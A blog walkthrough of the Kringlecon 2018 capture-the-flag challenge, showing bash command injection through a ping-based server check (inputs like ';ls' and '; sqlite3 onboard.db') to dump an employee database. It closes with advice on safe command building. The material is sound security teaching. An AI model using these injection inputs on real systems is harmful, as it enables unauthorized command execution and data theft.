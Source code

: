 ```yaml
---
layout: post
title:  "Kringlecon: Command injection with bash"
date:   2019-01-13 12:29:29 -0500
categories: 
---
```


*Warning: this post is a walkthrough and contains spoilers.*

Kringlecon 2018 included a basic `bash` command injection challenge. One of the elves needs assistance with finding a particular employee's 
first name from a SQLite database. You would then run `runtoanswer`, supply that first name, and challenge complete. The elf
gives you a hint about how to run Windows Powershell commands, a possible hint that the system might be vulnerable to injecting a Powershell
command into it.

# Walkthrough

Like the Python escape challenge, this terminal challenge did not log you in directly to `bash`. Instead you're placed into a new employee
registration system that allows you to either enter your contact information as a new employee, or run a system check to make
sure things are running normally. For this walkthrough we'll ignore the registration page and attack the sanity check. It prompts us
for a server name; let's try `localhost` to see what happens.

```
Validating data store for employee onboard information.
Enter address of server: localhost
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.121 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.046 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.043 ms
--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2026ms
rtt min/avg/max/mdev = 0.043/0.070/0.121/0.036 ms
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

That looks like the output of Linux's ping command, not Windows. We also see that the name of the database is `onboard.db`, which will be handy later.
The fact that we're seeing direct output of a shell command is interesting; it seems that whoever wrote this sanity check may be directly passing
our input to a command and giving us the output directly. When we put in `localhost`, for instance, we might imagine that a command like this was built:

```bash
/bin/bash -c "ping -c 4 'localhost'"
```

Let's test the theory. What if I pass in an invalid name that would break the syntax of the final command like a single `'`?

```
Validating data store for employee onboard information.
Enter address of server: '
/bin/bash: -c: line 0: unexpected EOF while looking for matching `''
/bin/bash: -c: line 1: syntax error: unexpected end of file
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

That confirms that the sanity check is using bash, and not Powershell as the hint might have initially lead us to believe. What if we put in something
a little more interesting?

```
Validating data store for employee onboard information.
Enter address of server: ;ls
Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
            [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
            [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
            [-w deadline] [-W timeout] [hop1 ...] destination
menu.ps1  onboard.db  runtoanswer
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

We use `;` to terminate the `ping` command, and then run `ls` to get a directory listing. Sure enough, we see `onboard.db` is in the current directory.
`menu.ps1` contains the Powershell code that runs the challenge's menu system; it seems whoever wrote this system either installed Powershell on Linux
or they're running the Windows Subsystem for Linux. We can run `; cat menu.ps1` to get the source code for the system if we please, which would make it
easier to attack the registration part of the code. But there's no need for that now; we're already injecting bash commands!

We can get access to the database by injecting `; sqlite3 onboard.db`. We're now in a `sqlite3` interactive prompt. Running `.dump` outputs the schema
and all of the data to the console to find the data we need. I'm not going to print it all here; after finding the name we were asked to, however,
we can inject `; ./runtoanswer` to get a prompt that asks for the first name. Giving the correct guess clears the challenge.

# Conclusion

If you absolutely *must* run shell commands based on user input for some reason, [this guide](http://mywiki.wooledge.org/BashFAQ/050) 
includes some better ways to build your commands so that they can't be broken so easily in bash. Solving the Powershell side of the challenge
(both on attack and defense) is left as an exercise for the reader. This was a fun exercise; I'm hoping there aren't too many systems in the wild
that are building shell commands off of arbitrary user input, but just typing that out is enough to make one realize it must be happening all over
the place. It's also not difficult to imagine a suid script that allows junior admins to perform functions that their normal user accounts
wouldn't have access to instead of setting permissions appropriately; a malicious insider could use this technique to escalate privileges.